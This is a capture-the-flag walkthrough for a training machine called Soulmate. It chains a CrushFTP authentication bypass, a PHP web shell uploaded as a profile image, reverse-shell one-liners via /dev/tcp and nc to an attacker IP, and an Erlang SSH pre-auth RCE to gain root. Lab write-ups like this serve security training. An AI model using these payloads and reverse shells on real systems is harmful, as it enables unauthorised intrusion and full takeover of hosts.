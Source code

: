 ```yaml
---
name: Soulmate
difficulty: easy
os: linux
platform: htb
date: 2025/09/11
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/2c47fcf9c85c7fbdda73a9c1b54fd60e.png
---
```


## Enumeration

First, we start with a nmap scan to identify open ports and services:

```bash
nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.11.86 -oN allPorts
```
```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
4369/tcp open  epmd    syn-ack ttl 63
```

We add the IP address to our `/etc/hosts` file for easier access:

```bash
echo "10.10.11.86 soulmate.htb" >> /etc/hosts
```

We then run a more detailed nmap scan on the identified open ports:

```bash
nmap -p22,80 -sC -sV soulmate.htb -oN targeted
```
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Soulmate - Find Your Perfect Match
```

We do a subdomain enumeration using `gobuster`:

```bash
gobuster vhost -u soulmate.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 200 --ad
```
```
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
```

We will add this subdomain to our `/etc/hosts` file as well:

```bash
echo "10.10.11.86 ftp.soulmate.htb" >> /etc/hosts
```

We access `ftp.soulmate.htb` in our browser and see a login page for CrushFTP. We look up for vulnerabilities and find a known Authentication Bypass vulnerability (CVE-2025-31161). 

## User And Root Exploitation

We can use this github repository to exploit it: `https://github.com/Immersive-Labs-Sec/CVE-2025-31161`

```bash
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161
cd CVE-2025-31161
python3 cve-2025-31161.py \
        --target_host ftp.soulmate.htb \
        --target_user crushadmin \
        --new_user rold \
        --password 'rold' \
        --port=80
```

This creates a new user `rold` with password `rold`. We can now log in to the CrushFTP web interface.

We navigate through the interface and find a file manager. 

We can create a malicious php file to get a reverse shell. We use the following code:

```php
<?php system($_GET['cmd']); ?>
``` 

Then upload an image file with php content to the server using profile image upload functionality in `http://soulmate.htb/profile.php`.

Next, is to change the uploaded file name to `shell.php` and access it in the browser:

```bash
curl "http://soulmate.htb/assets/images/profiles/shell.php?cmd=whoami"
```

```
www-data
```

We can set up a netcat listener to get a reverse shell:

```bash
nc -lvnp 4444
```

Then execute the following command to get a reverse shell:

```bash
curl "http://soulmate.htb/assets/images/profiles/reverse.php?cmd=bash%20-c%20%27sh%20-i%20%3E%26%20/dev/tcp/10.10.14.141/443%200%3E%261%27"
```

Now we have a reverse shell as `www-data` user.

```bash
whoami
```
```
www-data
```

We find a `config.php` file in the web directory that contains database credentials. We can read the file to find the credentials for the `admin` user.
```bash
cat config/config.php
```
```
admin:Crush4dmin990
```

We can use these credentials to log in to `http://soulmate.htb/` and access the admin panel.

We check the ports which are open in the machine and find that port 2222 is open. This is a Erlang ssh port.

```bash
nc localhost 2222
```
```
SSH-2.0-Erlang/5.2.9
```

We find a RCE vulnerability in Erlang (CVE-2025-32433). We can use this vulnerability to get a shell as the `root` user.

We use the following command to download the exploit code on our machine:

```bash
git clone https://github.com/ProDefense/CVE-2025-32433
zip -r CVE-2025-32433.zip CVE-2025-32433
python3 -m http.server 80
```

We then download the exploit code on the target machine using `wget`:

```bash
cd /tmp
wget http://10.10.14.141/CVE-2025-32433.zip
unzip CVE-2025-32433.zip
cd CVE-2025-32433
```

We have to modify the `CVE-2025-32433.py` file run the command to get a reverse shell.

```python
# 4. Send SSH_MSG_CHANNEL_REQUEST (pre-auth!)
print("[*] Sending SSH_MSG_CHANNEL_REQUEST (pre-auth)...")
chan_req = build_channel_request(
        command='os:cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.141 8000 >/tmp/f | nc 10.10.14.141 4444").
)
```
We set up a netcat listener on port 4444 to get a reverse shell on our machine:

```bash
nc -lvnp 4444
```

We then run the exploit code on the target machine:

```bash
python3 CVE-2025-32433.py 
```

We get a reverse shell as the `root` user:

```bash
whoami
```
```
root
```

We can now read the user and root flags:

```bash
cat /home/ben/user.txt
cat /root/root.txt
```

```
user flag value
root flag value
```

## Conclusion

In this write-up, we successfully exploited the Soulmate machine by leveraging known vulnerabilities in CrushFTP and Erlang to gain user and root access. We performed thorough enumeration, identified potential attack vectors, and executed the necessary exploits to achieve our objectives.
